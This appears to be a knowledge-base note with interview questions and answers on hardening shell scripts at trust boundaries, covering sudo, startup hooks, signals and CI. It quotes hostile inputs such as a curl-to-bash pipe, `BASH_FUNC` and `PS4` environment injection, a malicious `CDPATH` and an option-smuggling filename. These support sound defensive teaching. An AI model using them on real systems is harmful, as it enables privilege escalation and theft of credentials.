The decision a staff-plus engineer owns is where a shell script is allowed to sit relative to a trust boundary.
Shell is excellent on the trusted side: glue run by the owner, on the owner's files, with the owner's privileges.
It is a poor choice at the boundary itself, because the language interprets data by default, several of its interpreters run code from the environment before the first line, and the same file behaves differently under `/bin/sh` on macOS, Debian, and Alpine, as the portability table shows.
So the default architecture is: a small compiled or typed program (or `sudo` with a fixed command line, or the service manager) owns the boundary, builds a minimal environment, validates input into a typed form, drops what privilege it can, and only then runs a shell script whose inputs are already trusted.
The trade-off is real: the boundary component costs more to write and review than a 20-line wrapper, and it adds a deploy artifact; the payoff is that the security argument shrinks to that component plus a short list of sinks.
Move logic out of shell entirely when the threat model shows untrusted network input, structured data that needs parsing (JSON, URLs, archives), more than one privilege level inside one process, or a need for secrets that must not touch argv or the environment.
Keep shell, and harden it with this note's prologue and boundary rules, when the inputs are operator-controlled and the value of shell's composition of existing tools outweighs the review cost.
Finally, make the model executable: a lab like this one, run in CI across the shells you ship to, catches the day a platform `/bin/sh` starts importing something new.

## Interview questions

> [!question] L5: Which parts of a script's initial state does its caller choose, and which of them can the script reset in its first lines?
>
> > [!success]- Answer
> > The caller chooses argv, the environment, open descriptors, the working directory, the umask, signal dispositions and the mask, resource limits, and the user and group IDs (POSIX.1-2024 XSH `execve`).
> > The script can reset the umask, `PATH`, `IFS`, `CDPATH`, its working directory, and soft limits.
> > It cannot reset a signal that was ignored on entry, because POSIX forbids trapping it in a non-interactive shell, and it cannot undo code that the shell ran from the environment before line 1.
> > It also cannot raise a hard limit or regain privileges the caller withheld.
> >
> > Follow-up: Which flag on a bash interpreter line turns off its environment hooks, and what else does it change?

> [!question] L5: Predict the output: in a directory containing `work/`, with `CDPATH=/srv/evil` exported and `/srv/evil/work` existing, run `sh -c 'd=$(cd work && pwd); printf "[%s]\n" "$d"'` under dash, and then under native zsh.
>
> > [!success]- Answer
> > Under dash, `cd` searches `CDPATH` before `.` for an operand that does not start with `/`, `.`, or `..`, lands in `/srv/evil/work`, and writes that path to standard output, so the output is `[/srv/evil/work` on one line and `/srv/evil/work]` on the next.
> > Under native zsh, `cd` tries `./work` first because `.` is not in `cdpath`, prints nothing, and the output is `[` followed by the real path of `./work` and `]`.
> > The lab's `cdpath` probe asserts exactly this split between native zsh and every other family.
> >
> > Follow-up: Rewrite the line so it is correct in every shell, including for a directory named `-`.

> [!question] L5: Why does a `trap cleanup HUP` in a script started with `nohup` never run, and what should the script do instead?
>
> > [!success]- Answer
> > `nohup` sets `SIGHUP` to ignored before it runs the utility, and dispositions of ignored signals survive `execve`.
> > POSIX says signals ignored on entry to a non-interactive shell "cannot be trapped or reset, although no error need be reported", so the `trap` command succeeds silently and does nothing.
> > The script should also trap `EXIT`, keep cleanup idempotent, and not depend on a signal for correctness.
> > zsh 5.9.2 installs the trap anyway, so a test on zsh hides the problem.
> >
> > Follow-up: How can a script detect at startup that a signal was ignored on entry?

> [!question] L6: Debug this script: it runs as root from a `sudo` rule `ALL ALL=(root) NOPASSWD: /usr/local/bin/rotate`, with `Defaults !env_reset` in sudoers.
> ```sh
> #!/bin/bash
> cd logs
> for f in *.log; do
>   gzip "$f"
> done
> ```
>
> > [!success]- Answer
> > With `env_reset` off, sudo passes the caller's environment minus its `env_delete` list, whose built-in default removes `BASH_ENV`, `ENV`, `SHELLOPTS`, `BASHOPTS`, `PS4`, `IFS`, `CDPATH`, `ZDOTDIR`, and every `*=()*` function value (sudo plugins/sudoers/env.c, `initial_badenv_table`).
> > `PATH` is not on that list, so unless `secure_path` replaces it the caller chooses which `gzip` binary root runs; a site that edits `env_delete` can also reopen the bash hooks.
> > sudo keeps the caller's working directory, so the relative `cd logs` lands in a directory the caller created, and root then compresses, writes, and unlinks files there, which invites the symlink races in [[Temporary-File-Attacks]].
> > If `cd` fails, the script does not stop and globs `*.log` in the caller's directory instead.
> > A file named `-c.log` reaches `gzip` as options, because the glob result is not preceded by `--`.
> > The fix is `env_reset` with `secure_path` in sudoers, `#!/bin/bash -p` as defense in depth, `cd /var/log/app || exit 1` with an absolute path, and `gzip -- "$f"`.
> >
> > Follow-up: Which of these fixes still matter if the rule is changed to run a compiled program instead of a script?

> [!question] L6: Given that macOS `/bin/sh` is bash in POSIX mode, which environment variables still run code in it, and why does POSIX mode not stop them?
>
> > [!success]- Answer
> > The lab shows two: an exported function `BASH_FUNC_name%%='() { ...; }'` shadows the utility `name`, and `SHELLOPTS=xtrace` with `PS4='$(cmd)'` runs `cmd` before each traced command.
> > POSIX mode only turns off `BASH_ENV` (the `run_startup_files` guard checks `posixly_correct` and `act_like_sh`) and rejects imported function names that are not valid identifiers.
> > Function import and `SHELLOPTS` parsing are controlled by privileged mode, not by POSIX mode.
> > The fixes are a clean environment from the caller, `-p`, or `command name` for utilities.
> >
> > Follow-up: Why can an imported function shadow `basename` but not `/usr/bin/basename`?

> [!question] L6: A CI job runs `curl -fsSL https://example.com/upload.sh | bash` with deploy credentials in the environment; build its threat model in five lines.
>
> > [!success]- Answer
> > Asset: the credentials and anything the job can push; actors: the publisher, anyone who compromises the publisher's hosting or CI, and the network path.
> > Source: the script text itself, so every sink in it is attacker-controlled once the publisher is compromised; no quoting discipline helps.
> > Precedent: the Codecov uploader was altered from 2021-01-31 to 2021-04-01 to post `$(env)` to an attacker, and was caught by a checksum mismatch.
> > Controls: pin and verify a digest before execution, run the step with only the secret it needs, prefer a versioned package or a vendored copy, and keep credentials out of the environment of steps that do not need them.
> >
> > Follow-up: Why is checking the digest after `curl` but before `bash` stronger than `curl | sha256sum` in a pipeline?

> [!question] L7: Your team wants a "secure shell prologue" that every script sources to make it safe to call from `sudo`; argue for or against it.
>
> > [!success]- Answer
> > A prologue is useful for state that is still data when it runs: umask, `PATH`, `IFS`, `CDPATH`, and the working directory.
> > It cannot fix what runs before it: `BASH_ENV`, imported functions, `SHELLOPTS` with `PS4`, and `.zshenv` all execute during startup, and a sourced prologue file is itself located through state the caller controls unless its path is absolute.
> > It cannot re-arm signals ignored on entry, and it does nothing for the sinks in the body.
> > The right design puts the boundary in `sudo` (`env_reset`, `secure_path`, a fixed command line) or a small compiled entry point, adds `-p` to the interpreter line, and keeps a prologue only as defense in depth.
> >
> > Follow-up: How would you test, in CI, that the boundary really removes every hook on each platform `/bin/sh`?

> [!question] L7: Explain why `env -i` in front of a shell removes every startup hook in the lab, and name two things it does not remove.
>
> > [!success]- Answer
> > The hooks are all environment variables (`BASH_ENV`, `BASH_FUNC_name%%`, `SHELLOPTS`, `PS4`, `ZDOTDIR`, `ENV`), and `env -i` invokes the utility "with exactly the environment specified by the arguments", so none reaches the shell.
> > It does not remove state that is not in the environment: open descriptors, the umask, the working directory, signal dispositions and mask, resource limits, and the IDs all still come from the caller.
> > It also does not remove file-based hooks, such as `/etc/zshenv` in zsh, or `$HOME/.zshenv` when the caller supplies `HOME` and native zsh is the interpreter.
> > A launcher that is itself a shell script must not be the one that runs `env -i`, because it would parse the hostile environment first, which the lab's first draft demonstrated.
> >
> > Follow-up: How does a systemd unit or `sudo` handle the non-environment state?

> [!question] L7: Bash drops privileges when started setuid without `-p`, so why was that not enough, and what does the incident teach about where privilege handling belongs?
>
> > [!success]- Answer
> > Through bash 5.0 patch 11, the drop set the effective UID to the real UID but left the saved set-user-ID, so code in the shell could load a builtin with `enable -f` that called `setuid()` and regained the privilege (CVE-2019-18276).
> > The lesson is that privilege transitions belong in the small program that owns the boundary, done before `exec` with all three IDs, and verified; an interpreter that also parses attacker-influenced input is the wrong place.
> >
> > Follow-up: Which system calls drop real, effective, and saved IDs together on Linux, and how do you verify the drop?

## Related

Prerequisites: [[Environment-Variables-and-Inheritance]], [[Program-Startup-argv-envp-and-ARG_MAX]], [[Bash-Startup-Files-and-Modes]], [[Signals-Dispositions-Masks-and-Delivery]], [[Command-Search-and-PATH]]

Next: [[Command-Injection]]

See also: [[11-Security-And-Cryptography/01-Common-Vulnerabilities/owasp_top_10|OWASP Top 10]], [[eval-and-sh-c]], [[Argument-Injection-and-Double-Dash]], [[Hostile-Filenames]], [[PATH-Hijacking]], [[IFS-Attacks]], [[BASH_ENV-and-ENV]], [[Shellshock]], [[Temporary-File-Attacks]], [[sudo-and-sudoers]], [[Dropping-Privileges]], [[Secrets-in-argv-env-and-History]], [[Piped-Installers]], [[Supply-Chain-Pinning-and-Verification]], [[xz-Utils-Backdoor]], [[Restricted-Shells]], [[Sandboxing-Scripts]], [[setuid-and-Interpreted-Scripts]], [[Terminal-Escape-Injection]], [[Permissions-umask-and-Special-Bits]], [[Cleanup-Traps-and-Re-Raising-Signals]]

## Further reading

- POSIX.1-2024 XCU 2.5.3, 2.12, 2.13, and 2.15 `trap`: the normative rules for `ENV`, `IFS` at startup, inherited signal actions, and the execution environment a script receives.
- POSIX.1-2024 XSH `execve`: the list of process attributes that cross an exec, including the umask and ignored signals.
- POSIX.1-2024 XCU `cd`: the `CDPATH` search order, the standard-output rule, and the recommended `CDPATH= cd -P "./$dir"` idiom.
- GNU Bash Reference Manual (bash-5.3 doc/bashref.texi), "Bash Startup Files" and `set -p`: bash's own list of environment variables it distrusts in privileged mode.
- bash-5.3 source, shell.c `run_startup_files` and variables.c `initialize_shell_variables`: where `BASH_ENV`, function import, `PS4`, and `IFS` are decided.
- zsh manual, Startup/Shutdown Files, and zsh Src/init.c `run_init_scripts`: why native zsh runs `.zshenv` for every script.
- sudoers(5), `env_reset` and `secure_path`: the caller-side allowlist and why a denylist cannot work.
- Linux execve(2), proc(5), proc_pid_cmdline(5), proc_pid_environ(5): setuid scripts, `#!` limits, and who can read a process's argv and environment.
- NVD CVE-2014-6271, CVE-2016-7543, CVE-2019-18276: three bash incidents where the environment or a privilege drop crossed a boundary.
- Codecov, "Bash Uploader Security Update" (2021): a primary postmortem of a supply-chain change to a shell script that exfiltrated CI environments.
- GitHub Docs, "Script injections": how CI template expansion turns event data into shell code.
